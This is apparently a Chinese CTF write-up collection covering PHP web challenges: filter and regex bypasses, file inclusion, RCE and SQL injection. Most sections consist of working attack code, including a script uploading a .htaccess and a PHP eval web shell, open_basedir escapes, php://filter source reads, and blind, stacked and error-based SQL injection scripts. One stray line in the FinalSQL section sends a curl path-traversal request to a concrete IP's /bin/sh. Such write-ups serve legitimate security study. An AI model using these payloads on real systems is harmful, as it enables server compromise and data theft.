echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?>
```

首先是ip的问题，XFF没伪造成功，用`CLIENT-IP: 127.0.0.1`可以伪造
然后就是一个简单的加密，写一个解密函数就好了

```php
<?php
function unchange($c){
    $ae='';
    for($i=0;$i<strlen($c);$i++){ 
        $ae .= chr ( ord ($c[$i]) - $i*2 ); 
    }
    return base64_encode($ae);
}
echo unchange('flag.php');

ZmpdYSZmXGI=
```

最后的2333已经见过很多次了，php伪协议绕过


得到flag~


### [FBCTF2019]RCEService


感觉这题怪怪的，有奇怪的正则匹配，但是又不让看源码，至少得给个看源码的法子再来想想绕过吧...

要求使用json格式来提交cmd，也就类似`{"cmd":"ls"}`这样的句子，可以看到index.php可就是不让读
看了**wp**才知道没有匹配i，也就是可以换行绕过，在后面又发现这linux的环境变量没配cat
那就`/bin/cat /tmp/rceservice/flag`得到flag

第二种方法就正则最大字符绕过，超过正则能匹配的最大数就可以了


### [Zer0pts2020]Can you guess it?


```php
<?php
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
?>
```

直接给出了源码，开始想着是绕过这个**hash_eauals**，但是很像没啥办法
于是就只能看这个正则

`/config\.php\/*$/`
最后面是 *$ 意思就是只能以**config.php**结尾
再来看看**basename**

> **basename**
>
> basename — 返回路径中的文件名部分(会去掉文件名中的非ASCII值)
>
> ```php
> <?php
> echo "1) ".basename("/etc/sudoers.d", ".d").PHP_EOL;
> echo "2) ".basename("/etc/sudoers.d").PHP_EOL;
> echo "3) ".basename("/etc/passwd").PHP_EOL;
> echo "4) ".basename("/etc/").PHP_EOL;
> echo "5) ".basename(".").PHP_EOL;
> echo "6) ".basename("/");
> ?> 
> 输出
> 1) sudoers
> 2) sudoers.d
> 3) passwd
> 4) etc
> 5) .
> 6) 
> ```

也就是说，如果我的`$_SERVER['PHP_SELF']`是`index.php/config.php`经过**basename**之后就是`config.php`，而且必须要是config.php你才能读到flag
但你注意，正则匹配匹配的是`$_SERVER['PHP_SELF']`，也就是说，如果**basename**有漏洞的话，就可以绕过
稍微fuzz一下

```php
<?php
for ($i=80; $i < 255; $i++) {
    $filename='config.php/'.chr($i);
    if (!preg_match('/config\.php\/*$/i', $filename)){
        if(basename($filename)=='config.php'){
            echo dechex($i).'&nbsp;&nbsp;';
        }
    }
}
5c  81  82  83  84  85  86  87  88  89  8a  8b  8c  8d  8e  8f  90  91  92  93  94  95  96  97  98  99  9a  9b  9c  9d  9e  9f  a0  a1  a2  a3  a4  a5  a6  a7  a8  a9  aa  ab  ac  ad  ae  af  b0  b1  b2  b3  b4  b5  b6  b7  b8  b9  ba  bb  bc  bd  be  bf  c0  c1  c2  c3  c4  c5  c6  c7  c8  c9  ca  cb  cc  cd  ce  cf  d0  d1  d2  d3  d4  d5  d6  d7  d8  d9  da  db  dc  dd  de  df  e0  e1  e2  e3  e4  e5  e6  e7  e8  e9  ea  eb  ec  ed  ee  ef  f0  f1  f2  f3  f4  f5  f6  f7  f8  f9  fa  fb  fc  fd  fe  
```

上面这些随便选一个都可以

ASCII值范围为0-255，但ASCII码并没有规定编号为128~255的字符(大于%ff的会报错400 Bad Request）
ASCII表范围为0-127，也就是我们传入128(%80)以上的数值，即可绕过正则

值得一提的是 **中文或中文字符**也可以绕过basename
最后构造payload

`/index.php/config.php/%81?source`


### [GWCTF 2019]枯燥的抽奖

直接给出了源码

```php
<?php
#这不是抽奖程序的源代码！不许看！
header("Content-Type: text/html;charset=utf-8");
session_start();
if(!isset($_SESSION['seed'])){
$_SESSION['seed']=rand(0,999999999);
}

mt_srand($_SESSION['seed']);
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str='';
$len1=20;
for ( $i = 0; $i < $len1; $i++ ){
    $str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);       
}
$str_show = substr($str, 0, 10);
echo "<p id='p1'>".$str_show."</p>";


if(isset($_POST['num'])){
    if($_POST['num']===$str){x
        echo "<p id=flag>抽奖，就是那么枯燥且无味，给你flag{xxxxxxxxx}</p>";
    }
    else{
        echo "<p id=flag>没抽中哦，再试试吧</p>";
    }
}
show_source("check.php");
```

很明显就是要猜对值才给flag了，纯爆破肯定是爆不出来的
这里用到了随机纯数字的种子来伪随机生成密文，也就是说我们得到了种子就能得到字符串
关于伪随机的内容参考：https://www.freebuf.com/vuls/192012.html

这篇文章介绍了这个工具**php_mt_seed**，在linux安装好工具后

```python
str1='abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'
str2='8TFo3vhNbt'
length = len(str2)
res=''
for i in range(len(str2)):  
    for j in range(len(str1)):
        if str2[i] == str1[j]:
            res+=str(j)+' '+str(j)+' '+'0'+' '+str(len(str1)-1)+' '
            break
print(res)

34 34 0 61 55 55 0 61 41 41 0 61 14 14 0 61 29 29 0 61 21 21 0 61 7 7 0 61 49 49 0 61 1 1 0 61 19 19 0 61
```

将密文转为**php_mt_seed**能看懂的数据

```sh
xiaolei@xl-pc:~/php_mt_seed$ ./php_mt_seed 34 34 0 61 55 55 0 61 41 41 0 61 14 14 0 61 29 29 0 61 21 21 0 61 7 7 0 61 49 49 0 61 1 1 0 61 19 19 0 61
Pattern: EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62
Version: 3.0.7 to 5.2.0
Found 0, trying 0xfc000000 - 0xffffffff, speed 1711.7 Mseeds/s
Version: 5.2.1+
Found 0, trying 0x1e000000 - 0x1fffffff, speed 214.2 Mseeds/s
seed = 0x1eb88168 = 515408232 (PHP 7.1.0+)
Found 1, trying 0xfe000000 - 0xffffffff, speed 213.2 Mseeds/s
Found 1
```

找到种子

```php
<?php
mt_srand(515408232);
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str = '';
$len1 = 20;
for ($i = 0; $i < $len1; $i++) {
    $str .= substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);
}
$str_show = substr($str, 0, 10);
echo $str;

8TFo3vhNbt9VB6pJlGfo
```

得到完整密文~

**可怕的暴力破解**

### [SUCTF 2019]EasyWeb

```php
<?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```

正则过滤的很死

用个脚本检测下还剩下什么字符

```php
<?php
for($a = 0; $a < 256; $a++){
    if (!preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', chr($a))){
        echo chr($a)." ";
    }
}
?>
```
剩下
> ! # $ % ( ) * + - / : ; < > ? @ \ ] ^ { }

既然有异或符号，就一定可以异或出所有字符

```php
<?php
$payload = '';
$x = '_GET';
for($i = 0; $i < strlen($x); $i++){
    for ($j = 0; $j < 255; $j++){
        $k = chr($j) ^ chr(255);
        if ($k == $x[$i]) {
            $payload .= '%'.dechex($j);
        }
    }
}
echo '%ff%ff%ff%ff^'.$payload;
?>
```

```
?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
```

构造`$_GET[%ff]`（构造`$_GET[%ff]($_GET[%fe])`会超出长度

所以接下来只能利用给出的`get_the_flag`函数
上传`.htaccess`文件，利用**base64**来绕过

不知道为什么用bp上传一直有问题

写个脚本上传

```python
import requests
import hashlib
import base64

url ="http://3031af24-03a0-45ad-997c-8578e85b329e.node4.buuoj.cn:81/"
padding = "?_=${%f8%f8%f8%f8^%a7%bf%bd%ac}{%f8}();&%f8=get_the_flag"
myip=requests.get("http://ifconfig.me").text
ip_md5 = hashlib.md5(myip.encode()).hexdigest()
userdir="upload/tmp_"+ip_md5+"/"
htaccess = b"""\x00\x00\x8a\x39\x8a\x39
AddType application/x-httpd-php .txt
php_value auto_append_file "php://filter/convert.base64-decode/resource=./xl.txt"
"""
shaw = b"\x00\x00\x8a\x39\x8a\x39"+b"00"+ base64.b64encode(b"<?php eval($_POST['cmd']);?>")
files =[('file',('.htaccess',htaccess,'image/jpeg'))]

res = requests.post(url=url+padding,files=files)
files = [('file',('xl.txt',shaw,'image/jpeg'))]
res = requests.post(url=url+padding,files=files)
print("the path is:"+url+res.text)
```

按道理说最后用蚁剑的插件来绕过`open_basedir`权限限制，但我连上去就直接能看flag了（难道是默认开启了？

或者利用

```php
cmd=mkdir('rot');chdir('rot');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(glob('*'));
```

这样就能看到flag，再打印就好啦

[open_basedir绕过](https://www.v0n.top/2020/07/10/open_basedir%E7%BB%95%E8%BF%87/)

## 文件包含

### [WMCTF2020]Make PHP Great Again(×)


from buuctf


### [WMCTF2020]Make PHP Great Again2(×)


from buuctf

等我学好了条件竞争，就来治你们


### SCTF 2018_Simple PHP Web


查看url `http://www.bmzclub.cn:24314/?f=login.php`

很像文件包含，试了一下`?f=php://filter/convert.base64-encode/resource=login.php`发现确实是

然后`?f=php://filter/convert.base64-encode/resource=/flag`直接出来了

看作者的wp好像这时非预期，或者题目被改了


### [BSidesCF 2020]Had a bad day


看源码没发现出什么，抓包也没发现什么
我愿称这题为摸不着头脑的题
最后看WP发现是读取文件，完全搞不懂为什么这样想(不过这样最模拟挖洞了就是)


为什么不加`.php`？因为经过测试发现会自动加上，找到属于php的源码

```php
<?php
$file = $_GET['category'];

	if(isset($file))
	{
		if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
			include ($file . '.php');
		}
		else{
			echo "Sorry, we currently only support woofers and meowers.";
		}
	}
```

意思简洁明了，输入的内容必须要有这三个其中的一个，又涉及到知识盲区了

> **php伪协议嵌套**
> payload
>
> ```
> category=php://filter/convert.base64-encode/index/resource=flag
> ```
>
> 这里index被认为是键名，由于php://filter伪协议参数中没有该键名，报错，跳过，继续执行resource的参数

得到flag


### [NPUCTF2020]ezinclude(include特殊用法)


用cookie中的hash登陆后发现`/flflflflag.php`


给出了这个，那就读一下`flflflflag.php`的源码

```php
<html>
<head>
<script language="javascript" type="text/javascript">
           window.location.href="404.html";
</script>
<title>this_is_not_fl4g_and_å.ºé¢.人_wants_girlfriend</title>
</head>
<>
<body>
<?php
$file=$_GET['file'];
if(preg_match('/data|input|zip/is',$file)){
	die('nonono');
}
@include($file);
echo 'include($_GET["file"])';
?>
</body>
</html>
```

题目也不能出网，日志包含也没有回显
但是什么文件都可以读，盲猜flag在**phpinfo**里面

没什么思路，看看WP

> 使用php://filter/string.strip_tags导致php崩溃清空堆栈重启，如果在同时上传了一个文件，那么这个tmp file就会一直留在tmp目录，再进行文件名爆破就可以getshell

参考博客: https://www.cnblogs.com/tr1ple/p/11301743.html

意思很明显了，然后本题还给出了个**dir.php**帮助你看上传文件的文件名

脚本

```php
import requests
from io import BytesIO
 
url = "http://f68355cd-450c-487d-a8aa-dbd422297cc4.node4.buuoj.cn:81/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd"
 
phpfile = "<?php phpinfo(); ?>"
filedata = {
    "file":phpfile
}
 
bak = requests.post(url=url, files=filedata)
print(bak.text)
```

然后访问

```php
/flflflflag.php?file=/tmp/php4f2J8K
```

在phpinfo里面找flag就好啦

<font color='pink'>**又是一个偏僻的小知识点**</font>


### [HarekazeCTF2019]encode_and_encode（json小技巧）


```php
<?php
error_reporting(0);

if (isset($_GET['source'])) {
  show_source(__FILE__);
  exit();
}

function is_valid($str) {
  $banword = [
    // no path traversal
    '\.\.',
    // no stream wrapper
    '(php|file|glob|data|tp|zip|zlib|phar):',
    // no data exfiltration
    'flag'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}

$body = file_get_contents('php://input');
$json = json_decode($body, true);

if (is_valid($body) && isset($json) && isset($json['page'])) {
  $page = $json['page'];
  $content = file_get_contents($page);
  if (!$content || !is_valid($content)) {
    $content = "<p>not found</p>\n";
  }
} else {
  $content = '<p>invalid request</p>';
}

// no data exfiltration!!!
$content = preg_replace('/HarekazeCTF\{.+\}/i', 'HarekazeCTF{&lt;censored&gt;}', $content);
echo json_encode(['content' => $content]);
```

**json_decode认识unicode编码**


确实很多json的返回数据都是这样的

所以payload

```json
{"page":"\u0070\u0068\u0070://filter/convert.base64-encode/resource=/\u0066\u006c\u0061\u0067"}
```


## RCE

### [GXYCTF2019]Ping Ping Ping(绕过flag和空格)


进入页面先ls一下


然后直接cat flag.php失败，发现所以含flag或模糊查询的flag都被过滤了

于是想到cat \`ls\`来查询flag

发现空格被过滤

RCE中绕过空格的办法

`< 、<>、%20(space)、%09(tab)、$IFS$9、 ${IFS}、$IFS`

试了试，$IFS$9和$IFS可行，成功查询后看源码得到flag


### [GXYCTF2019]禁止套娃


进入页面只有一个**flag在哪里呢？**，抓包也没东西，那就扫后台
然后一种429，这版本的dirsearch又好像没了-s参数，一直扫不出来，没办法，自己人工扫
输入`.git`，返回 **403 Forbidden**

**上Githack！**

这次用BUG版的没扫出来，用lijiejie的扫出来了index.php，代码审计

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

第一个if过滤了直接读写，第三个if过滤了几个函数，主要是第二个if，看不懂...
参考别人的WP

> (?R)是引用当前表达式，(?R)? 这里多一个?表示可以有引用，也可以没有。，引用一次正则则变成了[a-z,_]+\([a-z,_]+\((?R)?\)\),可以迭代下去，那么它所匹配的就是print(echo(1))、a(b(c()));类似这种可以括号和字符组成的，这其实是无参数RCE比较典型的例子

无参数RCE做过很多次了

```php
看flag位置
var_dump(scandir(pos(localeconv())));
array(5) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(4) ".git" [3]=> string(8) "flag.php" [4]=> string(9) "index.php" }
读flag
show_source(next(array_reverse(scandir(pos(localeconv())))));
```


### [红明谷CTF 2021]write_shell


很简单的命令执行绕过

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

```php
payload
/?action=upload&data=<?=system("cat%09/flllllll1112222222lag")?>
然后访问
/sandbox/c47b21fcf8f0bc8b3920541abd8024fd/index.php
即可
```


## SQL

### [极客大挑战 2019]FinalSQL(异或sql)


该届极客大挑战有几个SQL，其余几题记录再来one note上


首先不管神秘代码

和以往一样 注用户名和密码

发现......几乎所有sql语句都被过滤了

没办法，看神秘代码，点进去发现有id

fuzz发现空格被过滤 || 被过滤，试了一下id=1(or)1=1; 注入不了

只能考虑 ^ 符号

1^1=0

1^0=1

所以即可构建payload

```sql
id=1^(ascii(substr(database(),%d,1))>0)
```

如果error(查询失败)，则<font color="pink">ascii(substr(database(),%d,1))>0</font>返回1

然后bp爆破...请求过多...爆破不了

py脚本还不会，只能暂时放这了，py学会了再来做吧

curl -X POST -d "echo;cat vdir" http://1.116.210.145:28794/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh


### ISCC-EasySQL(mysql8&虚拟表绕过)


题目信息

**Beaxia的邮箱地址忘记了，你能帮忙找找吗？**

进入页面


然后试试?id=1  2  3  4 ...

一直试到8，发现


接下来就是找他的邮箱

随意fuzz一下，select被过滤了，而这题又是查表

而且显然不是查当前后台sql语句查的表，而是其他的表

然后注出数据库 **security** version <font color='red'>8!</font>

要素察觉(被miniL折磨的)，那就只能是table了

然后table后面只能单纯的接一个表，所以不能用information_schema来获取表和列

`select table_schema,table_name from information_schema.tables where table_schema='pikachu';`

于是又去查了一下mysql8的特性，发现了一个有意思的表

**information_schema.TABLESPACES_EXTENSIONS**

他直接存储了数据库和表(如下)

```mysql
mysql> table information_schema.TABLESPACES_EXTENSIONS;
+------------------+------------------+
| TABLESPACE_NAME  | ENGINE_ATTRIBUTE |
+------------------+------------------+
| mysql            | NULL             |
| innodb_system    | NULL             |
| innodb_temporary | NULL             |
| innodb_undo_001  | NULL             |
| innodb_undo_002  | NULL             |
| sys/sys_config   | NULL             |
| security/users   | NULL             |
| security/emails  | NULL             |
| security/flag    | NULL             |
+------------------+------------------+
9 rows in set (0.02 sec)
```

上面的这个表也正和本题的这个表一样(table盲注注出来的)

然后注了好久flag，得到`flag is not here`...???

然后注beaxia邮箱注到后面的特殊符号怎么样都注不出来(后来发现是@)，然后...<font color='pink'>发现其实可以正常回显，不用盲注!!</font>

得到的是ypHeMPardErE.zip@beaxia.cn,然后输入/ypHeMPardErE.zip下载该压缩包

稍微审计一下，发现要用POST传username和password，正确就可得到flag，username是已知的--admin

password并不知道，于是考虑是不是又是sql注入

稍微试一下就发现是的，然后只有password有waf，username并没有

于是就可想到虚拟绕过了

直接union select或者values row都可以(group by *** with rollup想必也可以)，于是得到flag


### CTFshow-web10(虚拟表绕过)

进入题目


稍微测试一下，发现过滤了空格，select，sleep等函数

而普通盲注貌似无任何回显

时间盲注又被过滤了sleep

所以考虑最近做题遇到几次的虚拟表绕过


会新构建出一行数据

此时在密码输入刚刚输入的数据就可实现绕过登录

同理的还有values row(`mysql 8`)

`username='admin' union values row(1,'admin',123)&password=123`

<font color='red'>//前后数据类型要对应</font>

然后这题由于过滤了select和union所以上述两个办法没用

于是只能试试新的办法

之后找到了

<font color='low blue'>group by *** with rollup</font>

group by是将该列相同的合在一个

而with rollup是在统计数据的时候记录下数据的和(大概)，但究竟如何其实不重要

你只需要知道你用group by password with rollup时，会多出来一列，且多出来一列的password的值为`NULL`


于是在账号内输入

`admin’/**/or/**/1=1/**/group/**/by/**/password/**/with/**/rollup;#`

密码空着就可登录成功

最关键的就是不用union和select!


### CTFshow-web11(本地session绕过)

进入题目，源码已给出


发现是本地session来验证密码，直接删掉cookie，不输入密码登录

获得flag


### [强网杯 2019]随便注(有意思的思路和方法)


`1' or 1=1;#`  证明存在sql注入


随便输个select


看见了正则匹配的字符

由于select不能用了，于是想到用table代替，但查数据库版本发现为10，用不了table

于是试试联合注入


注出列名

```mysql
1';show columns from `1919810931114514`;#
```

<font color='blured'>纯数字的表必须带上反引号!!!</font>


联合注入可以，绕过的<font color='pink'>骚</font>姿势就多了

#### 解法①

1.通过 rename 先把 words 表改名为其他的表名。

2.把 1919810931114514 表的名字改为 words 。

3 .给新 words 表添加新的列名 id 。

4.将 flag 改名为 data 。

```mysql
1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alert table words change flag data varchar(100);#
```

然后输入1就可查到flag

#### 解法②

将select * from ` `1919810931114514` `进行16进制编码

构造payload

```mysql
1;SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#
```

* prepare…from…是预处理语句，会进行编码转换
* execute用来执行由SQLPrepare创建的SQL语句
* SELECT可以在一条语句里对多个变量同时赋值,而SET只能一次对一个变量赋值

#### 解法③

类似于[GYCTF2020]Blacklist

使用了handler

直接上payload

```mysql
1'; handler `1919810931114514` open as `a`; handler `a` read next;#
1';handler `1919810931114514` open; handler `1919810931114514` read first;handler `1919810931114514` close;#
1'; handler `1919810931114514` open; handler `1919810931114514` read next;#
```

三种方法实际上一模一样

打开文件，查看文件~


### Twice SQL Injection (二次注入)

二次注入是指已存储（数据库、文件）的用户输入被读取后再次进入到 SQL 查询语句中导致的注入
二次注入是sql注入的一种，但是比普通sql注入利用更加困难，利用门槛更高。普通注入数据直接进入到 SQL 查询中，而二次注入则是输入数据经处理后存储，取出后，再次进入到 SQL 查询

下面用这个题来深入理解一下


进入页面是一个登录框，随便注入试试，没用

那就注册个账号登进去看看


有一个填简介的框，输入`'`发现被转义了，貌似也没有其他办法绕过了

最后只能回归到注册框，因为在登录之后，后台会在数据库中查询该用户的简介，这里就有办法sql注入


登录后就发现了数据库


以此类推

```mysql
爆表
'union select table_name from information_schema.tables where table_schema='ctftraining'#
爆列名
'union select group_concat(column_name) from information_schema.columns where table_name='flag'#
爆flag
'union select flag from flag#
```


### [ctfshow]web8


随便点击一个文章


发现`?id=1`，可试试sql注入


成功。

下面随意fuzz一下，发现`, 空格`两个关键的被过滤了，然后除了文章没有其他回显

这时候就用到`substr`的另外一个用法

```sql
substr(database() from 1 for 1); #从一开始往后面的1个字符
```

其实不要`for 1`也可以`ascii`的一个特性

```sql
MariaDB [dvwa]> select ascii('dvwa');
+---------------+
| ascii('dvwa') |
+---------------+
|           100 |
+---------------+
1 row in set (0.000 sec)
```

很明显，只输出第一个字母的ascii码

所以就可以用这种方法绕过对` , `的过滤

写脚本时发现单引号也被过滤了，用十六进制就行

```py
import requests

url='http://2484e8c4-51e0-412e-98b9-ee946d347d6e.challenge.ctf.show/index.php?id='
str='0123456789qwertyuiopasdfghjklzxcvbnm}-'
flag=''
for i in range(1,666):
    for j in range(32,127):
        payload1=f"1||ascii(substr((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database())from/**/{i}/**/for/**/1))={j};#"
        payload2=f"1||ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name=0x666C6167)from/**/{i}/**/for/**/1))={j};#"
        payload3=f"1||ascii(substr((select/**/flag/**/from/**/flag)from/**/{i}/**/for/**/1))={j};#"
        r=requests.get(url+payload3)
        if("A Child's Dream of a Star"in r.text):
            flag+=chr(j)
            print(flag)
            if j=='}':
                exit()
            break
```


### [ctfshow]web14


### [CISCN2019 华北赛区 Day2 Web1]Hack World


随意fuzz一下，发现过滤了很多很多东西
`单双引号，||，&，分号，union，#基本扼杀了所有拼接查询的路`
所以就只能用一种不需要拼接的办法


#### 第一种

异或
`1^1=0  1^1^1=1`
payload:`1^(ascii(substr((select(flag)from(flag)),1,1))=102)^1`
脚本

```py
import requests
import time

url='http://ce2d5a60-c4be-4088-87f8-7419722a4e48.node4.buuoj.cn:81/index.php'
str='0123456789qwertyuiopasdfghjklzxcvbnm}-'
flag=''
for i in range(1,100):
    for j in range(32,128):
        data={"id":f"1^(ascii(substr((select(flag)from(flag)),{i},1))={j})^1"}
        r=requests.post(url=url,data=data)
        time.sleep(0.1) #buu对访问速度有限制，需要慢一点
        #print(data)
        if("Hello, glzjin wants a girlfriend."in r.text):
            flag+=chr(j)
            print(flag)
            if chr(j)=='}':
                exit()
            break
```

#### 第二种

实际上类似第一种，不过更好理解

payload: `if(ascii(substr((select(flag)from(flag)),1,1))=102,1,0)`
if成立则返回1，反之则是0

脚本就上面稍微改改就好


### [WUSTCTF2020]颜值成绩查询


这题确确实实让我警醒了
<font color='red'>**异或真的有必要出现在sql里面吗？？？？如果可以异或了，我还需要异或？？？这前面的1^不要了不也可以正常注入？？？**</font>

这题很明显就是一个盲注，直接上脚本

```python
import requests
import time

url='http://c96b3f21-359d-4ac2-b6e9-624191da429d.node4.buuoj.cn:81/?'
str='0123456789qwertyuiopasdfghjklzxcvbnm}-'
a='[+]data:'
flag=''
for i in range(1,100):
    low=32
    high=128
    mid=(low+high)//2
    while(low<high):
        #data=f"stunum=(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),{i},1))={j})"
        #data=f"stunum=(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),{i},1))={j})"
        data=f"stunum=(ascii(substr((select(group_concat(value))from(flag)),{i},1))>{mid})"
        r=requests.get(url+data)
        time.sleep(0.05)
        if "Hi admin" in r.text:
            low=mid+1
        else:
            high=mid
        mid=(low+high)//2
    if(mid==32|mid==128):
        break
    flag+=chr(mid)
    print(a+flag)
```

<font color='red'>**完全不需要异或**</font>


​                                                                              <font color='red'>**多思考，不要只跟着WP的思路走**</font>

### [RCTF2015]EasySQL

注册一个含危险字符的账号`1'#\`

进去更改密码报错

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1'#\" and pwd='c4ca4238a0b923820dcc509a6f75849b'' at line 1
```

可以猜出sql语句大概是

```sql
select * from user where username=" 1'#\ " and password=' c4ca4238a0b923820dcc509a6f75849b '
```

很明显是二次注入了，有报错，可以直接报错注入了

注册一个**username**为

```sql
xl"||(updatexml(1,concat(0x3a,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))),1))#
```



再注册

```sql
xl"||(updatexml(1,concat(0x3a,(select(group_concat(column_name))from(information_schema.columns)where(table_name='flag'))),1))#
```



再注册

```sql
xl"||(updatexml(1,concat(0x3a,(select(group_concat(flag))from(flag))),1))#
```



呃呃

那就看看users

```sql
xl"||(updatexml(1,concat(0x3a,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users'))),1))#
```



有长度限制，应该是`real_flag_1s_here`

查表

```sql
xl"||(updatexml(1,concat(0x3a,(select(group_concat(real_flag_1s_here))from(users))),1))#
```



看来有些无用的填充，要用到正则了

```sql
xl"||(updatexml(1,concat(0x3a,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),1))#
```



left和right被过滤了，可以用**reverse**来倒序

```sql
xl"||(updatexml(1,concat(0x3a,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')))),1))#
```



用python转一下，然后拼一下得到flag

```
